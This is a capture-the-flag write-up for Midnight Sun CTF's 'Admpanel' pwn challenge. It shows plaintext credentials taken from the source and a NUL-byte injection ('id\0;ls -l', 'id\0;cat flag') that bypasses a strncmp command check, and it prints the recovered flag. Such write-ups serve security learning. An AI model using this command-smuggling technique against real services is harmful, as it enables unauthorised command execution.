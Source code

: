 # Admpanel, Pwn, 58pts

## Problem

We found this legacy admin panel. Someone has patched it though :(

Service: nc admpanel-01.play.midnightsunctf.se 31337
Download: admpanel.tar.gz
Author: hspe is available for questions in forum#midnightsun @ freenode 
Status: Online

## Solution

When we connect to ```admpanel-01.play.midnightsunctf.se 31337```, we can see simple admin panel:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 >
```

We can't execute any command, first we need to login.
We can find username and password saved in plaintext in source code:


![Screen caption](admpanel1.png)


After login in, we can execute command, but there is restriciton to only one command: `id`:

![Screen caption](admpanel2.png)


A line in code marked in green is where the condition is checked. Let's take a look at `strncmp()` C function documentation:

```
$ man strncmp


STRCMP(3)                BSD Library Functions Manual                STRCMP(3)

NAME
     strcmp, strncmp -- compare strings

LIBRARY
     Standard C Library (libc, -lc)

SYNOPSIS
     #include <string.h>

     int
     strcmp(const char *s1, const char *s2);

     int
     strncmp(const char *s1, const char *s2, size_t n);

DESCRIPTION
     The strcmp() and strncmp() functions lexicographically compare the null-terminated strings s1 and s2.

     The strncmp() function compares not more than n characters.  Because strncmp() is designed for comparing strings rather than binary data, characters that appear after a `\0'
     character are not compared.

RETURN VALUES
     The strcmp() and strncmp() functions return an integer greater than, equal to, or less than 0, according as the string s1 is greater than, equal to, or less than the string s2.
     The comparison is done using unsigned characters, so that `\200' is greater than `\0'.

SEE ALSO
     bcmp(3), memcmp(3), strcasecmp(3), strcoll(3), strxfrm(3), wcscmp(3)

STANDARDS
     The strcmp() and strncmp() functions conform to ISO/IEC 9899:1990 (``ISO C90'').

BSD                            October 11, 2001                            BSD
(END)

```

As we can see, `strncmp()` compares strings as long as the character is not `\0` (NULL).
So we can inject any command we want to execute buy terminating `id` with NULL character:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id\0;ls -l
total 24
-rwxr-x--- 1 root ctf 14408 Apr  3 13:09 chall
-r--r----- 1 root ctf    41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf    71 Apr  2 21:20 redir.sh
 > 2
  Command to execute: id\0;cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
 >
```

And that's all - flag is **midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}**
